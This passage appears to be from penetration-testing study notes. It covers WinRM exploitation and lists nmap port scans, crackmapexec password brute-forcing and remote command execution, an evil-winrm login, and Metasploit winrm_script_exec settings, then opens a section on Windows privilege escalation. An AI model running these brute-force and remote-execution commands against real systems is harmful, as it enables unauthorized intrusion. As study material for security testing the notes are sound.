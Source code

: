 <a id=2.3.4></a>
### WinRM Exploitation

<a id=2.3.4.1></a>
#### What is WinRM?

WinRM (or Windows Remote Management) is a proprietary Microsoft protocol intended as a 
QoL improvement for system administrators. It's used through HTTP/HTTPS. 

Typically used for the following reasons:

- Remotely access and interact with Windows hosts on a local network.
- Remotely access and execute commands on Windows systems.
- Manage and configure Windows systems remotely.

It runs on 5985 or 5986 depending on whether HTTPS is configured or not.

WinRM implements access control and security for communication between hosts with 
different types of authentication.

We can use crackmapexec to bruteforce WinRM, or we could also use "evil-winrm", a Ruby
script written for the sole purpose of executing remote commands through the WinRM 
protocol.

<a id=2.3.4.2></a>
#### Exploiting WinRM

The ports 5986-5986 are not in the top 1000 most commonly used ports. So if we are looking
for the WinRM service, we'll need to be more throughout.

```bash
$ nmap -sV -p- [TARGET]
# This way we'll ve able to scan all 65K ports.
$ nmap -sV -p5985-5986 [TARGET]
# Or we could be lazy if we knew that WinRM is used. Otherwise, a complete
# scan of all ports is recommended.
$ crackmapexec winrm [TARGET] -u /path/to/usernames -p /path/to/passwords
$ crackmapexec winrm [TARGET] -u [USERNAME] -p [PASSWORD] -x '[COMMAND TO EXECUTE]'
$ evil-winrm -u [USERNAME] -p '[PASSWORD]'  -i [TARGET]
msf5 > use exploit/windows/winrm/winrm_script_exec
msf5 exploit > setg RHOSTS [TARGET]
msf5 exploit > set RPORT [PORT]
msf5 exploit > set USERNAME [USERNAME]
msf5 exploit > set PASSWORD [PASSWORD]
msf5 exploit > set FORCE_VBS TRUE
```

<a id=2.4></a>
## Windows Privilege Escalation

Privilege escalation is the process of exploiting vulnerabilities or misconfigurations
in systems in order to gain elevated access, like SYSTEM privileges or root.

It's a vital part of the attack cycle, since an attacker will most possibly need some 
privileges to execute malicious commands or to delete any trace. 
